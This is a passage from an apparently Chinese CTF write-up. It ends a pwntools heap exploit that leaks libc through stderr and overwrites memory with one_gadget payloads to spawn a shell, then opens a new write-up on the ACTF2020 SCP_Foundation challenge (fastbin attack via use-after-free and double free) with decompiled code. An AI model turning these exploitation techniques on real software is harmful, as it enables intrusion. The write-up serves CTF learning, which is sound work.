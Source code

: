 ```python
show(-16)
data = rc()
stderr = uu64(data[448+17:448+6+17])
libc_base = stderr - libc.sym['_IO_2_1_stderr_']
info_addr('libc_base',libc_base)

if is_local:
    one_gadget = libc_base + 0x106ef8
if is_remote:
    one_gadget = libc_base + 0xf66f0
    #  0xf66f0 execve("/bin/sh", rcx, [rbp-0xf8])
    #constraints:
    #  [rcx] == NULL || rcx == NULL
    #  [[rbp-0xf8]] == NULL || [rbp-0xf8] == NULL

# debug()

if is_local:
    payload = p64(stderr)*44+p64(stderr+7936)+p64(stderr)*7+p64(0xffffffff)+p64(stderr+0x1000)*400+p64(one_gadget)*100
    #                                  1                           -1          cmp rax,rcx               func
if is_remote:
    payload = p64(stderr)*7+p64(one_gadget)+p64(stderr)*10+p64(stderr+4672)+p64(stderr)*6+p64(0xffffffff)+p64(stderr)*31+p64(stderr+8)+p64(0)*200
    #                             func                               1                            -1                           rbp
mod(-16,payload)

p.interactive()
```

## SCP_Foundation_Secret

> ACTF2020的两道堆体，当时还不会做，现在补上。
>
> 一共有两道，分别是SCP_Foundation_Secret和SCP_Foundation_Attack，Secret可以直接打印出flag，Attack则需要getshell，其余部分两题都一样，我只做了更难的getshell法。

- 题目描述：
  
    > 忘记了
- 题目附件：
- 考察点：fastbin attack (`uaf` + `double free`)
- 难度：中等
- 分值：300

### 程序分析

`glibc heap`相关的菜单题，主函数如下：

```c
void main(void){
  long in_FS_OFFSET;
  undefined4 local_1c;
  void *local_18;
  undefined8 local_10;
  
  local_10 = *(undefined8 *)(in_FS_OFFSET + 0x28);
  local_1c = 0;
  memset(local_18,0,10);
  init_system();
  local_18 = (void *)Login();
  menu();
```